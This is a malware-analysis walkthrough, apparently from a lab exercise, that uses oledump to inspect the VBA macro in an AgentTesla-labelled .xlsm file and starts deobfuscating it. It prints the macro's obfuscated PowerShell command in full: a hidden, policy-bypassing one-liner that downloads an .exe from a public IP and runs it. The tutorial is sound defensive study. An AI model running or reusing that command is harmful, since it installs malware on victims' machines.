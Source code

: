 Now, we should be aware of the data stream with the capital letter **M**. This means there is a **Macro**, and you might want to check out this data stream, `'VBA/ThisWorkbook'`.

So, let's check it out! Let's run the command `oledump.py agenttesla.xlsm -s 4`. This command will run the oledump and look into the actual data stream of interest using the parameter `-s 4`,  wherein the `-s` parameter is short for `-select`  and the number four(`4`) as the data stream of interest is in the 4th place(`A4: M 688 'VBA/ThisWorkbook'`)

```bash 
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4
```

The results above are in hex dump format. There might be some familiar words from a trained eye. However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

```bash 
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
```
This is much better, isn't it?
 Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. Our interest here would be the value of **Sqtnew** because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

```bash 
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

We will copy the first value of **Sqtnew** and paste it into **CyberChef's** input area. You can open a local copy of CyberChef inside the REMnux VM or go to this link to access the online version. Use whichever works for you. You might want to check my notes about CyberChef to get more familiar with the tool.

Now that we’ve identified the macro content, let’s focus on decoding any obfuscation.

Looking at the VBA script, we can see that the second and third elements of the array `Sqtnew` include **string replacement commands**, specifically:

```vb
Replace(..., "*", "")
Replace(..., "^", "")
```

This suggests that:

- All instances of `*` should be removed
- All instances of `^` should also be removed
- The `""` indicates that the characters are being replaced with **nothing (i.e., an empty string)**
